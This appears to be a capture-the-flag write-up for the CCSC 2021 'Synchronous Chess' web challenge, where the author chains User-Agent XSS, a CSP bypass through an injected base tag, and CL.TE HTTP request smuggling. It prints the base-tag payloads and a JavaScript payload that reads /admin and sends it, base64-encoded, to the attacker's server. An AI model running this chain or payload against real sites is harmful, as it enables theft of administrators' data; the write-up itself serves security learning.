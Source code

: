 ```yaml
---
title: CCSC 2021&#58; Synchronous Chess
tags: ccsc web xss smuggling writeup
---
```


## Description
The final match of the Moscow Invitational (1968) has been adjourned at the request of the defending World Champion, Vassily Borgov. His next move has been stored for safe keeping by the arbiters of the tournament, until the match resumes tomorrow. However, the arbiters cannot be trusted 100% so we need to help Beth smuggle out the move so she can be sure that no foul play will abound.

Challenge running at: [http://192.168.125.11:7000](http://192.168.125.11:7000/)

___

Reading the description i didn't get any hint towards what the challenge might be, so i quickly opened the web app and started testing. The web apps home page greets us with a login page.

![](images/Pasted%20image%2020210421194104.png)

I first tried some defualt easy-to-guess credentials but no luck there, then i thought about testing for SQL injections but before i started testing i wanted to first enumerate the application a litte, so i started up burp and checked for 404,401,500 and 400 error pages and something odd stood out to me.

As you can see from the image below, a 404 error prints my user-agent at the bottom, but that didnt show in the web app, sneaky author. Next i tested for XSS by changing my user agent to `User-Agent: <script>alert(1)</script>`

![](images/Pasted%20image%2020210421194558.png)

![](images/Pasted%20image%2020210421194907.png)

The script tag got injected to the web app but did not work so i opened my developer tools to check what the error might be:

![](images/Pasted%20image%2020210421194948.png)

Looks like the CSP (Content Security Policy) protected this web page from executing my inline javascript. One can find the CSP configuration from the response headers, in this case it was: 
```
default-src 'self'; script-src 'self' 'nonce-UpZ2W3JTsZCvHOlE'; img-src 'self'; object-src 'none'
```

I quickly threw this policy in a [CSP Evaluator](https://csp-evaluator.withgoogle.com/) and it showed an error that the CSP might be bypassable:


![](images/Pasted%20image%2020210421195241.png)

```
Missing base-uri allows the injection of base tags. They can be used to set the base URL for all relative (script) URLs to an attacker controlled domain. Can you set it to 'none' or 'self'?
```

I googled online what a [base](https://www.w3schools.com/tags/tag_base.asp) tag is, basically you can add a `base` tag to reference the url that contains all included javascript/css files. Meaning if i add a `base` tag like:

`<base href="http://attacker.com">`

and the web page wanted to fetch `/js/main.js` it would make a request to `http://attacker.com/js/main.js`, and since i control the attacker domain i can easily clone the directory tree and include my own javascript file, bypassing the CSP and getting XSS. 

The CCSC gave all its competitors an attack machine (192.168.125.100) which we could use to get reverse shells, etc. since the challenges cannot access the internet.

I next viewed the source code of the app to see which javascript file i could fake, i used `/static/js/main.js`. I ssh'ed into my attack machine, created the directory tree and a `main.js` file with `alert(1)` as its contents. Then i used `php` to start a web server on port `1234`

![](images/Pasted%20image%2020210421201658.png)

Next i made the same request to get a 404 response but with a `User-Agent` like so: `User-Agent: <base href="http://192.168.125.100:1234/">`. Sent the request and requested the reponse in my browser. As you can see from the screenshot below  it worked! The web page requested the `main.js` file from my attack machine and found it, executing my alert.

![](images/Pasted%20image%2020210421201736.png)

Up until this part was quite easy for me, i had reflected XSS on the web site but did not know how that could help me further. How can i make another user send a request with a custom user-agent? After digging in the application a bit more i noticed a `/admin` path that was restricted, i did not try any header manipulating techniques to bypass the ip restriction since i was 99% sure that the XSS was there for a reason.

![](images/Pasted%20image%2020210421202541.png)

Since i was stuck i went to [burp academy](https://portswigger.net/web-security/all-labs) (I believe you need an account to view the labs) and checked all the Labs that were available, maybe get an idea how to exploit my reflected XSS further and noticed one lab that could help me.

![](images/Pasted%20image%2020210421203024.png)

Http request smuggling sounds perfect for this challenge, in simple terms if the web app is prone to http request smuggling i could send a request like the below screenshot. By abusing the `Content-Length` or `Transfer-Encoding` header, the front-end and backend do not aggree on which one to use, as a result the back-end views the smuggled request as a seperate one, this request get stored in the web cache and the next request another user makes will get the response of the smuggled request. 

![](images/Pasted%20image%2020210421204219.png)


I added the `HTTP Request Smuggler` extension to burp suite and scanned the web application for request smuggling on the POST /login endpoint. Then the issue i was expecting appeard, `Possible HTTP Request Smuggling`. 

![](images/Pasted%20image%2020210421221039.png)

Perfect, I sent the above request to my repeater and used the smuggle attack(CL.TE) to check if i could smuggle a request. As you can see from the below screenshots, i smuggle a GET request to a non-exsitent page within my POST request to `/login`. In the second screenshot we notice that at some point the POST request to `/login` responded with 404!

![](images/Pasted%20image%2020210421221322.png)

![](images/Pasted%20image%2020210421221222.png)

Now all i needed to do is modify the request to include my custom `User-Agent` with the base tag and hopefully i will notice the admin user making requests to my attack machine.

And there you go, i am now getting requests on my attack machine from the admin user

![](images/Pasted%20image%2020210421222129.png)

But all that is happening to the admin user is a simple alert box, i want to see the contents of `/admin`, i updated my `main.js` file to simply make an ajax request to `/admin` and then redirect the admin to my attack machine with `window.location.replace` and add the contents from the ajax request in a GET parameter url encoded

Here is the final payload of `main.js`

```javascript
var x = new XMLHttpRequest(); 
x.open("GET", "http://192.168.125.11:7000/admin");
x.onload = function(){
        response = btoa(x.responseText);
        window.location.replace("http://192.168.125.100:1234/?".concat(response));
 }; 
 x.send(); 
```

Again, sent my smuggled request and BOOM, got the base64 encoded response on my server logs

![](images/Pasted%20image%2020210421224642.png)

Now i just decoded the base64 query parameter and got the flag.

![](images/Pasted%20image%2020210421224814.png)

flag: `CCSC{h77p_R3Qu357_5muGGl1N_15_5up3R_pHuN}`

This was my favourite challenge in the CCSC competition, a big well done to `styx00` for creating such a sick challenge.